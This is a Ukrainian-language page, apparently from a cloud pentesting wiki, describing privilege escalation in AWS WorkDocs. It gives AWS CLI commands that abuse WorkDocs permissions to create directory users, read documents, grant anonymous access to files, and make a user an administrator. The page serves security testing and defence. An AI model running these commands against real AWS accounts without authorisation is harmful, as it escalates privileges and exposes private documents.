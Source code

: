 # AWS - WorkDocs Privesc

## WorkDocs

Для отримання додаткової інформації про WorkDocs перегляньте:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Створіть користувача всередині вказаного каталогу, після чого ви матимете доступ як до WorkDocs, так і до AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Файли можуть містити чутливу інформацію, прочитайте їх:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Якщо у вас немає доступу для читання чогось, ви можете просто надати його.

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Ви можете зробити користувача адміністратором, встановивши його в групу ZOCALO\_ADMIN.\
Для цього слід дотримуватися інструкцій з [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Увійдіть за допомогою цього користувача в workdoc та отримайте доступ до панелі адміністратора за адресою `/workdocs/index.html#/admin`

Я не знайшов способу зробити це з командного рядка.
